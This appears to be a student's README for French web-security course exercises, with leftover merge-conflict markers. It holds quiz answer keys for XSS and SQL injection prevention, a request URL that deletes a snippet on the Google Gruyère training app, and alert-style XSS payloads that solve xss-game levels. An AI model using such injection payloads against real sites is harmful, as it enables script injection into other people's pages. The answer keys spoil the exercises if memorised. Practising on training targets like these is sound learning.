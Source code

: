 <<<<<<< HEAD
Challenge for the [Basics] XSS prevent quest !
=======
# QuetesBasicDefense

https://google-gruyere.appspot.com/GRUYEREINSTANCEID/deletesnippet?index=0

Questionnaire reponses : 1-A, 2-A, 3-B, 4-B, 5-C, 6-B, 7-A, 8-B. 

-------------------------------------------------

Quetes 2.2 injection SQL : prevenir 

Questionnaire responses : 1-B, 2-B, 3-B, 4-B, 5-B, 6-A, 7-B, 8-A, 9-C.

-------------------------------------------------

Quete 3.1 Attaque XSS :

Challenge 1 : <script> alert() </script>

Challenge 2 : <blob src=c onerror=alert('Win')>

-------------------------------------------------
 
  Quete 3.3 Attaque XSS Avancée :
  
  Challenge 3 : https://xss-game.appspot.com/level3/frame#1' onerror="alert('hacked')"
  
  Challenge 4 : 
  
  Challenge 5 : 
  
  Challenge 6 : 

